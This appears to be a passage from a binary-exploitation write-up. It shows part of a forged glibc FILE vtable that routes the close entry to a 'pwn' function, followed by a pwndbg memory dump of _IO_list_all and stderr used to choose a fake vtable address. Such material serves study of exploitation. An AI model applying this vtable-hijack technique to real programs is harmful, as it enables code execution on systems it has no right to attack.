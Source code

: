```
9 NULL, // xsgetn
10 NULL, // seekoff
11 NULL, // seekpos

12 NULL, // setbuf
13 NULL, // sync

14 NULL, // target location
15 NULL, // read

16 NULL, // write

17 NULL, // seek

18 pwn, // close

19 NULL, // stat

20 NULL, // showmanyc

21 NULL, // imbue

};

```

I chose the following address as `fake_vtable` here:


```

pwndbg> x /60gx 0x7f41d9c02500

0x7f41d9c02500 <_nl_global_locale+224>:	0x00007f41d99cb997	0x0000000000000000

0x7f41d9c02510:	0x0000000000000000	0x0000000000000000

0x7f41d9c02520 <_IO_list_all>:	0x00007f41d9c02540	0x0000000000000000

0x7f41d9c02530:	0x0000000000000000	0x0000000000000000

0x7f41d9c02540 <_IO_2_1_stderr_>:	0x00000000fbad2086	0x0000000000000000

0x7f41d9c02550 <_IO_2_1_stderr_+16>:	0x0000000000000000	0x0000000000000000

0x7f41d9c02560 <_IO_2_1_stderr_+32>:	0x0000000000000000	0x0000000000000000

0x7f41d9c02570 <_IO_2_1_stderr_+48>:	0x0000000000000000	0x0000000000000000

0x7f41d9c02580 <_IO_2_1_stderr_+64>:	0x0000000000000000	0x0000000000000000

0x7f41d9c02590 <_IO_2_1_stderr_+80>:	0x0000000000000000	0x0000000000000000

0x7f41d9c025a0 <_IO_2_1_stderr_+96>:	0x0000000000000000	0x00007f41d9c02620

0x7f41d9c025b0 <_IO_2_1_stderr_+112>:	0x0000000000000002	0xffffffffffffffff

0x7f41d9c025c0 <_IO_2_1_stderr_+128>:	0x0000000000000000	0x00007f41d9c03770

0x7f41d9c025d0 <_IO_2_1_stderr_+144>:	0xffffffffffffffff	0x0000000000000000

0x7f41d9c025e0 <_IO_2_1_stderr_+160>:	0x00007f41d9c01660	0x0000000000000000

0x7f41d9c025f0 <_IO_2_1_stderr_+176>:	0x0000000000000000	0x0000000000000000
```